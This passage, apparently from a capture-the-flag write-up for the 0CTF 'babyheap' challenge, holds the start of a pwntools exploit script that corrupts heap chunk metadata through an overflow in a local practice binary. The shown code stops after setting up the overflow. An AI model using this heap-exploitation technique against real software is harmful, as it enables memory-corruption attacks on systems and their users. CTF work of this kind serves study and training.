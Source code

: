 ## Exploit

Since I previously just discussed at high level how the exploit worked, here is the exploit source code itself:

```
# Import pwntools
from pwn import *

# First establish the target process and libc file
target = process('./0ctfbabyheap', env={"LD_PRELOAD":"./libc-2.23.so"})
gdb.attach(target)
elf = ELF('libc-2.23.so')

# Establish the functions to interact with the program
def alloc(size):
	target.recvuntil("Command: ")
	target.sendline("1")
	target.recvuntil("Size: ")
	target.sendline(str(size))

def fill(index, size, content):
	target.recvuntil("Command: ")
	target.sendline("2")
	target.recvuntil("Index: ")
	target.sendline(str(index))
	target.recvuntil("Size: ")
	target.sendline(str(size))
	target.recvuntil("Content: ")
	target.send(content)

def free(index):
	target.recvuntil("Command: ")
	target.sendline("3")
	target.recvuntil("Index: ")
	target.sendline(str(index))

def dump(index):
	target.recvuntil("Command")
	target.sendline("4")
	target.recvuntil("Index: ")
	target.sendline(str(index))
	target.recvuntil("Content: \n")
	content = target.recvline()
	return content

# Make the initial four allocations, and fill them with data
alloc(0xf0)# Chunk 0
alloc(0x70)# Chunk 1
alloc(0xf0)# Chunk 2
alloc(0x30)# Chunk 3
fill(0, 0xf0, "0"*0xf0)
fill(1, 0x70, "1"*0x70)
fill(2, 0xf0, "2"*0xf0)
fill(3, 0x30, "3"*0x30)

# Free the first two
free(0)# Chunk 0
free(1)# Chunk 1

# Allocate new space where chunk 1 used to be, and overflow chunk chunk 2's previous size with 0x180 and the previous in use bit with 0x0 by pushing 0x100
alloc(0x78)# Chunk 0
fill(0, 128, '4'*0x70 + p64(0x180) + p64(0x100))
```